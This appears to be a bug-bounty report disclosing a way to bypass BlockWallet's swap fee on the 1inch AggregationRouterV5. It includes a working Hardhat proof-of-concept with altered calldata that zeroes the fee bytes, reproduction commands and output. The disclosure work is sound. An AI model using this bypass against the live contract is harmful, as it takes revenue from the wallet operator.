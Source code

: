 # Risk rating

Critical

# Title

Missing proper access control about the swap fee collected by BlockWallet.

# Links to affected code

https://etherscan.io/address/0x1111111254eeb25477b68fb85ed929f73a960582#code;

# Vulnerability details

## Bug Description

BlockWallet allows users to exchange their tokens instantly through smart contracts (e.g., [AggregationRouterV5](https://etherscan.io/address/0x1111111254eeb25477b68fb85ed929f73a960582#code)). During token exchanging, BlockWallet may collect swap fee (e.g., 0.0010661ETH in [this transaction](https://explorer.phalcon.xyz/tx/eth/0x20646935214abe32e8e4768d565345b0e2e64b5bc3996df3bca5d8a48072c22f)). However, proper access control is missing and users can easily bypass the collection of the swap fee.

More specifically, the front-end website inquires [a self-host server](https://api-blockwallet.1inch.io/v5.0/1/swap?fromAddress=0x1DA352647A577f119d1b808702B3dF21e7FFbD00&fromTokenAddress=0xeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee&toTokenAddress=0x6810e776880c02933d47db1b9fc05908e5386b96&amount=304600000000000000&slippage=0.5&fee=0.5&referrerAddress=0x3110a855333bfb922aeCB1B3542ba2fdE28d204F&allowPartialFill=false) to obtain transaction data for a specific token exchange. However, by slightly manipulating the transaction, any users can bypass the swap fee collected by BlockWallet, hence result in financial of BlockWallet.

## Impact

Any user can bypass the swap fee collection specific by BlockWallet, which may result in 1k+ loss of BlockWallet daily.

Although this vulnerability only causes a loss of <1% for each transaction. However, considering the high volume of BlockWallet's trading transactions, we consider this a critical vulnerability.

## Proof of Concept

we impersonate [a real-world transaction](https://explorer.phalcon.xyz/tx/eth/0x20646935214abe32e8e4768d565345b0e2e64b5bc3996df3bca5d8a48072c22f), where the user exchanged 0.3046ETH for GNO. In this transaction, 0.0010661ETH was collected by [BlockWallet](https://etherscan.io/address/0xbeec796a4a2a27b687e1d48efad3805d78800522) as the swap fee. In our PoC, by manipulating the transaction parameter (i.e., setting the 61st-67nd byte of `data` as zero), we obtain more GNO with the same amount of ETH.

```
const {ethers, hre, network} = require("hardhat");
require('dotenv').config();

async function main() {
  const AggregationRouterV5Factory = await ethers.getContractFactory("AggregationRouterV5");
  const AggregationRouterV5 = AggregationRouterV5Factory.attach("0x1111111254eeb25477b68fb85ed929f73a960582");
  const GNO = await ethers.getContractAt("IERC20", "0x6810e776880c02933d47db1b9fc05908e5386b96");
  console.log("AggregationRouterV5 deployed on:", await AggregationRouterV5.getAddress());
  console.log("Current block number: ", await ethers.provider.getBlockNumber());

  const mockUserAddress = "0x1DA352647A577f119d1b808702B3dF21e7FFbD00";
  const user = await ethers.getImpersonatedSigner(mockUserAddress);
  console.log("user's address:     ", user.address);
  console.log("======Before Swap======")
  console.log("user's ETH balance: ", await ethers.provider.getBalance(user.address));
  console.log("user's GNO balance: ", await GNO.balanceOf(user.address));

  let executor = "0x92f3f71cef740ed5784874b8c70ff87ecdf33588";
  let desc = {
    srcToken: "0xeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee",
    dstToken: "0x6810e776880c02933d47db1b9fc05908e5386b96",
    srcReceiver: "0x92f3f71cef740ed5784874b8c70ff87ecdf33588",
    dstReceiver: mockUserAddress,
    amount: "304600000000000000",
    minReturnAmount: "4955163944170767155",
    flags: 0,
  };
  let permit = "0x";
  //setting the 61st-67nd byte as zero
  // let data = "0x0000000000000000000000000000000000000000a900004600002c000026e021beec796a4a2a27b687e1d48efad3805d7880052200000000000000000003c99cbfcb880000206b4be0b94041c02aaa39b223fe8d0a0e5c4f27ead9083c756cc2d0e30db002a000000000000000000000000000000000000000000000000044c4475a881f4333ee63c1e580f56d08221b5942c428acc5de8f78489a97fc5599c02aaa39b223fe8d0a0e5c4f27ead9083c756cc21111111254eeb25477b68fb85ed929f73a960582";
  let data = "0x0000000000000000000000000000000000000000a900004600002c000026e021beec796a4a2a27b687e1d48efad3805d788005220000000000000000000000000000000000206b4be0b94041c02aaa39b223fe8d0a0e5c4f27ead9083c756cc2d0e30db002a000000000000000000000000000000000000000000000000044c4475a881f4333ee63c1e580f56d08221b5942c428acc5de8f78489a97fc5599c02aaa39b223fe8d0a0e5c4f27ead9083c756cc21111111254eeb25477b68fb85ed929f73a960582";

  await AggregationRouterV5.connect(user).swap(executor, desc, permit, data, {value: "304600000000000000"});

  console.log("=======After Swap======")
  console.log("user's ETH balance: ", await ethers.provider.getBalance(user.address));
  console.log("user's GNO balance: ", await GNO.balanceOf(user.address));
  //user's GNO balance: 7068116105222997127
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```

### Steps to Reproduce

```
npm install
npx hardhat run scripts/test.js
```

### Expected Result

Compared to [the transaction](https://explorer.phalcon.xyz/tx/eth/0x20646935214abe32e8e4768d565345b0e2e64b5bc3996df3bca5d8a48072c22f), we get around 0.0176 (7.0856-7.0681) more GNO with the same amount of ETH.

```
AggregationRouterV5 deployed on: 0x1111111254eeb25477b68fb85ed929f73a960582
Current block number:  17890044
user's address:      0x1DA352647A577f119d1b808702B3dF21e7FFbD00
======Before Swap======
user's ETH balance:  12038707039792156691n
user's GNO balance:  2062900000000000000n
=======After Swap======
user's ETH balance:  11731691213882114251n
user's GNO balance:  7085695549800451499n
```

## Risk Breakdown

Attack vector: Network
Attack complexity: Low
Privileges required: None
User interaction: None
Scope: Unchanged
Confidentiality: None
Integrity: High
Availability: None

CVSS V3 Score: 7.5